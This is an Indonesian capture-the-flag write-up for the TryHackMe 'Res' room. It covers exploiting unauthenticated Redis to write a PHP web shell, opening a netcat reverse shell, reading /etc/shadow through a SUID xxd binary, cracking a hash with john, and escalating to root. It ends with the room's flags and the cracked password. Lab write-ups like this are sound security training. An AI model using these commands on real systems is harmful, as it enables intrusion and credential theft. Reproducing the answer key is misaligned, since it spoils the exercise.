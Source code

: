# CTF - RES
- TryHackMe Challenge: https://tryhackme.com/room/res
- IP Machine: 10.10.191.28

## Port Scanning
- Lakukan port scanning dengan tool `nmap`
```sh
nmap -sV -p- -T4 <IP Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%201.JPG)

- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%202.JPG)

## Redis Exploit
- Akses Redis pada server dengan tool `redis-cli`
```sh
redis-cli -h <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%203.JPG)

- Setelah terhubung buat Shell melalui Redis dengan perintah sebagai berikut
```sh
config set dir /var/www/html
config set dbfilename shell.php
set test "<?php system($_GET['cmd']) ?>"
save
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%204.JPG)

- Lakukan pengujian shell melalui browser dengan url `http://10.10.191.28/shell.php?cmd=id`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%205.JPG)

- Buat Reverse Shell menggunakan netcat dengan perintah sebagai berikut:
```sh
nc -e /bin/bash <IP tun0> 4444
```

- Encode reverse shell menggunakan tool URL Encoder online https://www.urlencoder.org/
```sh
nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%206.JPG)

- Buat listener netcat di terminal baru
```sh
nc -lnvp 4444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%207.JPG)

- Jalankan Reverse Shell melalui browser dengan url sebagai berikut:
```sh
http://<IP_Machine>/shell.php?cmd=nc%20-e%20%2Fbin%2Fbash%20<IP tun0>%204444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%208.JPG)

- Netcat berhasil terkoneksi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%209.JPG)

- Disini terlihat bahwa terminal belum interaktif. Jadi buat menjadi terminal interaktif dengan perintah sebagai berikut
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2010.JPG)

## Gain Access
- Cari semua SUID yang dapat dieksekusi dengan perintah dibawah ini
```sh
find / -type f -user root -perm -4000 2>/dev/null
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2011.JPG)

- Disini ditemukan SUID **/usr/bin/xxd**. Kita bisa memanfaatkan script di https://gtfobins.github.io/gtfobins/xxd/#file-read untuk melakukan eskalasi lebih lanjut. Gunakan script dibawah ini untuk membaca file **/etc/shadow** dan copy hash user `vianka`
```sh
LFILE=/etc/shadow
/usr/bin/xxd "$LFILE" | /usr/bin/xxd -r
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2012.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2013.JPG)

- Simpan hash tersebut ke dalam sebuah file di local dengan nama file **hash-vianka.txt**
```sh
echo 'paste_hash_here' > hash-vianka.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2014.JPG)

- Crack hash user `vianka` diatas menggunakan tool `john the ripper` dan wordlist `rockyou.txt` yang terdapat di kali linux
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash-vianka.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2015.JPG)

- Password berhasil ditemukan, sekarang switch ke user vianka lalu masukkan password diatas
```sh
su vianka
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2016.JPG)

- Pada directory **/home** terdapat directory **vianka**. Pada directory **/home/vianka** terdapat file **user.txt** sebagai user flag. Buka file **user.txt**
```sh
cd /home/vianka
cat user.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2017.JPG)

## Privilege Escalation
- Lakukan pengecekan apakah user `vianka` punya akses ke sudo
```sh
sudo -l
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2018.JPG)

- Ternyata user `vianka` bisa mengakses, sehingga kita bisa langsung switch ke user `root`
```sh
sudo su
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2019.JPG)

- Buka root flag yang berada di direktori **/root**
```sh
cat /root/root.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Redis/assets/res%2020.JPG)

## Pertanyaan dan Jawaban:

- **Pertanyaan:** Scan the machine, how many ports are open?
```sh
2
```

- **Pertanyaan:** What's is the database management system installed on the server?
```sh
redis
```

- **Pertanyaan:** What port is the database management system running on?
```sh
6379
```

- **Pertanyaan:** What's is the version of management system installed on the server?
```sh
6.0.7
```

- **Pertanyaan:** Compromise the machine and locate user.txt
```sh
thm{red1s_rce_w1thout_credent1als}
```

- **Pertanyaan:** What is the local user account password?
```sh
beautiful1
```

- **Pertanyaan:** Escalate privileges and obtain root.txt
```sh
thm{xxd_pr1v_escalat1on}
```